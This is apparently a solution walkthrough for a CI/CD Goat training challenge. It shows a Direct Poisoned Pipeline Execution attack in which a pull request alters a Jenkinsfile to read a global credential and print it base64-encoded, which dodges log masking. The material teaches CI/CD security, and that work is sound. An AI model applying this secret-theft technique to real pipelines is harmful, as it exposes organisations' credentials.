

[-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

Create a pull request and execute a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack against the _Wonderland/white-rabbit_ repository to steal the _flag1_ secret.

The flag is stored in the Jenkins credential store with the Global scope, which makes it accessible to any pipeline on the Jenkins instance.

1. Clone the _Wonderland/white-rabbit_ repository.
2. Checkout to a new branch.

    ```shell
    git checkout -b challenge1
    ```

3. Modify the Jenkinsfile to load _flag1_, and print it to the Jenkins build console output which you have access to (encode it so it won’t be masked), or send it to a host you control.

    ```groovy
    stage ('Install_Requirements') {
        steps {

            withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
                sh '''
                    echo $flag1 | base64
                '''                 
            }
        }
    }
    ```

4. Push the changes to the remote branch and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the encoded secret.
